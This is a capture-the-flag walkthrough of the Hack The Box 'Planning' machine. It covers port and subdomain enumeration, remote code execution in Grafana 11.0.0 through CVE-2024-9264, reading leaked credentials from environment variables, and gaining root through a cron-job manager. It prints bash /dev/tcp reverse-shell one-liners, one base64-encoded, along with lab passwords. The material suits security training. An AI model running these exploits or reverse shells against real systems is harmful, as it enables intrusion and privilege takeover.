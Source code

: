 ```yaml
---
name: Planning
difficulty: easy
os: linux
platform: htb
date: 2025/07/02

img: https://labs.hackthebox.com/storage/avatars/c9efb253e7d1d9b407113e11afdaa905.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.68 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.68 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there is a web service running on port 80. This website redirects us to `http://planning.htb`, so it is necessary to add the domain to our `/etc/hosts` file:
```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

We will try to detect the web application framework using `whatweb`:
```bash
whatweb http://planning.htb
```
```
http://planning.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
```

We will do a directory enumeration scan using `gobuster` to enumerate the web application:
```bash
gobuster dir -u http://planning.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

As nothing interesting was found in directory enumeration and web application content, we will proceed with subdomain enumeration using `ffuf`:
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -fs 0
```
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 237ms]
```
We should add the subdomain `grafana.planning.htb` to our `/etc/hosts` file:
```bash
10.10.11.68 planning.htb grafana.planning.htb
```

## User Exploitation

We access grafana at `http://grafana.planning.htb` and we are greeted with a login page. 
We can log in using credentials given in the description of the machine:
```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

We can check grafana version in `http://grafana.planning.htb/api/health`, we see that is running version `11.0.0`

We can use `https://github.com/nollium/CVE-2024-9264` to exploit a vulnerability in Grafana 11.0.0 that allows us to execute arbitrary code.
We clone the repository and run the exploit:
```bash
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip install -r requirements.txt
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c <shell-cmd> http://grafana.planning.htb
``` 
We will encode base64 the following code to get a reverse shell:
```bash
echo "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1" | base64
```

Then we run the exploit with the encoded command:
```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQ0NCAwPiYxCg | base64 -d | bash'  http://grafana.planning.htb
```

We are in a Docker container. We can check by running the following command:
```bash
hostname -I
```
```
172.17.0.2
```
We can get credentials on ENV variables:
```bash
env
```
```
...
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
...
```

We can use these credentials to login via ssh
```bash
ssh enzo@planning.htb
```

We can find the user flag in the home directory:
```bash
cat /home/enzo/user.txt
```
```
user flag value
```

## Root Exploitation

We can check if user `enzo` has sudo privileges:
```bash
sudo -l
```
```
Sorry, user enzo may not run sudo on planning.
```

We run `linpeas` to check for privilege escalation vectors:
```bash
./linpeas.sh
```
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data
```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
```

Also found a service running on port 8000, which is not accesible from outside the machine. We do a port forwarding to access it:
```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

We can access the service at `http://localhost:8000` and we are greeted with a login page. We can log in using the credentials we found in the crontab:
```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

We can see a web interface that allows users to manage crontab jobs which will be runned by root. We can create a new job that will create a reverse shell for us. We can use the following command to create a new job:
```bash
bash -c "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1"
```

Once the job is created we can run it by clicking on the "Run" button. This will execute the command as root and give us a reverse shell.

We get access to the root reverse shell:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion

This walkthrough demonstrated how to exploit a vulnerable Grafana instance to gain user access and then escalate privileges to root using a custom cron job. The process involved enumeration, exploiting a known vulnerability, and leveraging Docker container management to achieve the final goal of obtaining the root flag. 
